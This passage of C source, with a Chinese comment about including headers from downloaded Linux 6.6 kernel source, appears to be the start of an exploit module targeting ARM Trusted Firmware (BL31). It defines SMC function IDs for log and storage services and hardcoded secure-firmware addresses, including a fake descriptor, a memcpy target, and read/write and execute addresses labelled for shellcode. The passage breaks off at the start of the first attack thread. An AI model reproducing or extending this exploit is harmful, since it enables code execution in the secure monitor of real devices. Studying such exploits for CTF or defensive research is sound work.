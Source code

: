 > 注：引用下载的内核源码路径的头文件

```c
#include "linux-6.6/include/linux/kernel.h"
#include "linux-6.6/include/linux/module.h"
#include "linux-6.6/include/linux/init.h"
#include "linux-6.6/include/linux/device.h"
#include "linux-6.6/include/linux/arm-smccc.h" //arm_smccc_smc
#include "linux-6.6/include/linux/kthread.h" // kthread
#include "linux-6.6/include/linux/string.h" // memset

#define DEVICE_NAME1 "step1_driver"
#define DEVICE_NAME2 "step2_driver"

static int step1_major_number = 0;
static int step2_major_number = 0;
static struct class* step1_class = NULL;
static struct class* step2_class = NULL;
static struct device* step1_device = NULL;
static struct device* step2_device = NULL;

// call type
#define SMC_TYPE_FAST    1
#define SMC_TYPE_YIELD   0
// calling convention
#define SMC_64   1
#define SMC_32   0
// oen
#define OEN_LOG_SVC       7
#define OEN_STORAGE_SVC   9

// shift and mask
#define FUNCID_TYPE_SHIFT   31
#define FUNCID_CC_SHIFT     30
#define FUNCID_OEN_SHIFT    24
#define FUNCID_NUM_SHIFT    0

/* SMC FID */
#define SMC_FID(type, cc, oen, num) ((type<<FUNCID_TYPE_SHIFT) | (cc<<FUNCID_CC_SHIFT) | \
                                     (oen<<FUNCID_OEN_SHIFT) | (num<<FUNCID_NUM_SHIFT))
#define STORAGE_SVC_WR   0xC9000031
#define STORAGE_SVC_RD   0xC9000032

#define LOG_SMC_FID(num)   SMC_FID(SMC_TYPE_YIELD, SMC_64, OEN_LOG_SVC, num)
#define LOG_SVC_PLOG_SET   LOG_SMC_FID(2)
#define LOG_SVC_PLOG_RD    LOG_SMC_FID(3)
#define LOG_SVC_ABWR       LOG_SMC_FID(2)
#define LOG_SVC_SC         LOG_SMC_FID(3)

#define BL31_NS_MEM       0x423dc000
#define BL31_NS_MEM_SIZE  0x1000

#define MAX_SIZE_ADDR     0xE0D70B0
#define MEMCPY_ADDR       0xE0A3160

#define FAKE_DESC_ADDR    0xe0d96f0
#define FAKE_DESC         0xe0db7c3
#define SC_RW_ADDR        0xe0db000
#define SC_EXEC_ADDR      0xe0de000

static uint64_t *ns_mem = NULL;

static int func1_thread(void *data) {
    struct arm_smccc_res res;
```